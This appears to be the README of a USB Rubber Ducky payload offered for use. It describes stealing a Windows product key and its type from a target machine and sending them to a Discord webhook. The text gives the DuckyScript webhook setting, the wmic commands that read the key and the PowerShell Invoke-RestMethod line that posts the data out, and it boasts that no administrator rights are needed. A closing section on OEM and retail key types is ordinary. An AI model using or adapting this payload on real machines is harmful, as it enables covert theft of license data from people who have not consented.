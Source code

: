 # Exfiltrate Windows Product Key

Through this payload, you can export the key information related to the Windows Product Key, knowing its type and the key itself, using a Discord Webhook.

No administrator permissions are required to do this, isn't that absurd, right? :-)

![](./assets/1.png)

**Category**: Exfiltration

## Index

- [Introduction](#exfiltrate-windows-product-key)
- [Note](#note)
- [Dependencies](#dependencies)
- [Settings](#settings)
- [Payload Description](#payload-description)
- [Product Key Types](#product-key-types)
- [Sources](#sources)

## Note

Tested on:
- Windows 11

## Dependencies

- Discord Webhook

## Settings

This portion of the payload serves as a user-defined configuration section where you should input your Discord Webhook URL. You should replace "example.com" with the actual Discord Webhook URL you want to use. The Webhook URL is the endpoint where your payload will send the acquired information related to the Windows Product Key, as well as its type, for exfiltration to a specified Discord channel or server. It's a crucial part of the payload that connects the data extraction process to your Discord platform for further analysis or actions.

```DuckyScript
DEFINE #DISCORD-WEBHOOK example.com
```

## Payload Description

Through this payload, you can export essential information related to the Windows Product Key using a Discord Webhook, ensuring that you identify its type and the key itself.

At the beginning of the payload, the DETECT_READY extension [[1](#sources)] is used to optimize the opening of a PowerShell session on the target.

The following commands are then executed to obtain the necessary information about the Product Key:

1. This command retrieves the currently in-use Product Key:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKey
   ```

2. This command helps determine the type of key. You can refer to the [key types section](#key-types) for more details:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKeyDescription
   ```

The acquired information is stored in the `$exfiltration` variable, which is subsequently used to create the `$payload` object. This object is then utilized for exfiltration via a Discord Webhook.

**Exfiltration via Discord Webhook**:

The `$hookUrl` variable was initialized at the beginning of the payload with the value you need to define before execution.

```powershell
Invoke-RestMethod -Uri $hookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType 'Application/Json'; exit
```

**Exfiltration via USB Rubber Ducky Storage**:

If you use the exfiltration method set up to retain data using Rubber Ducky's USB storage, you will not have to make any changes.

## Product Key Types

When dealing with Windows Product Keys, it's essential to understand the different types and their characteristics:

- **OEM Keys** (*Original Equipment Manufacturer*):

      **Transferability**: Not supposed to be transferable. These keys are typically tied to the prebuilt PC on which they were originally installed.
      **Usage**: Manufacturers use OEM keys to install Windows on new computers.
      **Procurement**: OEM keys can sometimes be found at discount key vendors, although their use on different hardware may be challenging.

- **Retail Keys** (*aka "Full Packaged Product" Keys*):
      
      **Transferability**: Transferrable. These keys can be moved from one computer to another.
      **Cost**: Retail keys are often more expensive, often exceeding $100.
      **Hidden Keys**: In some cases, a computer may already have a retail key, perhaps from a previous Windows upgrade. Users might not be aware of this until they check.

Understanding these key types is crucial when working with Windows Product Keys, as it can impact their use, transferability, and compatibility with different hardware and scenarios.

*Note: Source of this info [[2](#sources)]*

## Sources

- [1] Detect Ready: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [2] Is your Windows Product Key transferrable? https://www.tomshardware.com/how-to/transfer-windows-license-to-new-pc#is-your-windows-product-key-transferrable-3
